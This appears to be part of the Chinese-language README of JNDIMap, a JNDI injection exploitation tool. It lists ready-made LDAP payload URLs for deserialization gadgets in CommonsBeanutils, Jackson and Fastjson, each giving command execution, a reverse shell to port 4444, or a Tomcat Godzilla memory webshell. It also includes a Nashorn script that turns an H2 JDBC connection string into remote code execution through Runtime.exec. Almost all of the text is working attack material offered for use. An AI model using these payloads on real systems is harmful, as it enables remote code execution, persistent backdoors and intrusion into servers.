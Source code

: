 ```bash

# 1.8.3
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/MemShell/Tomcat/Godzilla/Filter

# 1.9.4
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/MemShell/Tomcat/Godzilla/Filter

# Jackson 反序列化
# 使用 JdkDynamicAopProxy 优化不稳定性问题, 需要 spring-aop 依赖
ldap://127.0.0.1:1389/Deserialize/Jackson/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Jackson/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/Jackson/MemShell/Tomcat/Godzilla/Filter

# Fastjson 反序列化

# Fastjson1: 全版本 (1.2.x)
ldap://127.0.0.1:1389/Deserialize/Fastjson1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson1/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/Fastjson1/MemShell/Tomcat/Godzilla/Filter

# Fastjson2: <= 2.0.26
ldap://127.0.0.1:1389/Deserialize/Fastjson2/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson2/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/Fastjson2/MemShell/Tomcat/Godzilla/Filter
```

## Script

JNDIMap 支持使用 Nashorn JavaScript 引擎 (基于 ES5) 编写自定义 JNDI Payload 脚本

以 H2 RCE 为例

```javascript
var Reference = Java.type("javax.naming.Reference");
var StringRefAddr = Java.type("javax.naming.StringRefAddr");

var list = [];
list.push("CREATE ALIAS EXEC AS 'String cmd_exec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return \"test\";}'");
list.push("CALL EXEC('" + args + "')"); // 参数通过 args 变量传入

var url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=" + list.join(";") + ";";

var ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null);
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

ref; // 返回 Reference 对象
```
